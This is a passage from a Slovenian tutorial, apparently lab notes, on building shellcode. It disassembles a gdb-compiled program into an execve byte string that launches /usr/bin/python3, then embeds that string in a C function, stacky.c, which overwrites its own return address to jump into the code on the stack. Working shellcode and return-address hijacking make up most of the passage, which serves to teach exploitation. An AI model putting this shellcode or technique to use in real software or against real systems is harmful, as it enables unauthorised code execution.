     c: 5

Sedaj pa bomo podali še naš začetni program kot niz program `stacky.c`. Niz pridobimo tako, da program izpišemo v zbirniku z orodjem `gdb` in ga izpišemo kot niz od vključno ukaza `jmp    0x114e <main+41>` do vključno z vrstico za ukazom `call`.

    gcc program.S -g -o program

    gdb program

    Reading symbols from program...
    (gdb) disassemble main
    Dump of assembler code for function main:
        0x0000000000001129 <+0>:	push   %rbp
        0x000000000000112a <+1>:	mov    %rsp,%rbp
        0x000000000000112d <+4>:	sub    $0x10,%rsp
        0x0000000000001131 <+8>:	mov    %edi,-0x4(%rbp)
        0x0000000000001134 <+11>:	mov    %rsi,-0x10(%rbp)
        0x0000000000001138 <+15>:	jmp    0x1148 <main+31>
        0x000000000000113a <+17>:	pop    %rdi
        0x000000000000113b <+18>:	xor    %rsi,%rsi
        0x000000000000113e <+21>:	xor    %rdx,%rdx
        0x0000000000001141 <+24>:	xor    %rax,%rax
        0x0000000000001144 <+27>:	mov    $0x3b,%al
        0x0000000000001146 <+29>:	syscall
        0x0000000000001148 <+31>:	call   0x113a <main+17>
        0x000000000000114d <+36>:	(bad)
        0x000000000000114e <+37>:	jne    0x11c3
        0x0000000000001150 <+39>:	jb     0x1181
        0x0000000000001152 <+41>:	(bad)
        0x0000000000001153 <+42>:	imul   $0x68747970,0x2f(%rsi),%ebp
        0x000000000000115a <+49>:	outsl  %ds:(%rsi),(%dx)
        0x000000000000115b <+50>:	outsb  %ds:(%rsi),(%dx)
        0x000000000000115c <+51>:	xor    (%rax),%eax
        0x000000000000115e <+53>:	mov    $0x0,%eax
        0x0000000000001163 <+58>:	leave
        0x0000000000001164 <+59>:	ret
    End of assembler dump.
    (gdb) p (char*)0x0000000000001138
    $1 = 0x1138 <main+15> "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3"

Niz našega programa `\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3` dodamo v `stacky.c` in za vrnitveni naslov nastavimo začetek našega niza v programu.

    nano stacky.c

    #include <stdio.h>

    #define X 7

    int callme(int a, unsigned long *b){
        unsigned long *f;
        char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3";
        f = (unsigned long*)(&a + X);	// Override return address.
        *f = (unsigned long)&(program[0]);
        return a + *b;
    }
